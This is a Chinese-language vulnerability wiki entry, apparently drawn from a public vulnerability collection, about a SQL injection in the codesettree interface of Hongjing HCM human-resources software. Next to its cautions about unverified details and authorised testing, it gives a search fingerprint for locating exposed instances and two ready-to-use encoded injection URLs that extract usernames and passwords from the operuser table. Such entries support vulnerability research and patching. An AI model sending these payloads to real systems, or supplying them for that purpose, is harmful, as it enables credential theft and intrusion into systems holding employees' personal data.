

# 宏景HCM codesettree categories SQL 注入

## 条目说明

- 对象与具体问题：宏景HCM；codesettree categories SQLi
- 版本、配置及部署条件：无版本
- 认证与权限前提：无Cookie片段，未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。
- 编号待核：CNVD-2023-0874。未核实的编号不作为本条确认主编号。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 直接读operuser账号密码证据敏感；没有响应/认证/版本
- 产品目录含接口需归宏景

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

宏景 HCM codesettree 接口存在SQL注入漏洞，攻击者通过漏洞可以获取到登陆系统的账号密码和数据库信息

### 漏洞影响

宏景 HCM

### 网络测绘

```
app="HJSOFT-HCM"
```

### 漏洞复现

登陆页面


验证POC

```
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cusername~20from~20operuser~20~2d~2d
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cpassword~20from~20operuser~20~2d~2d
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
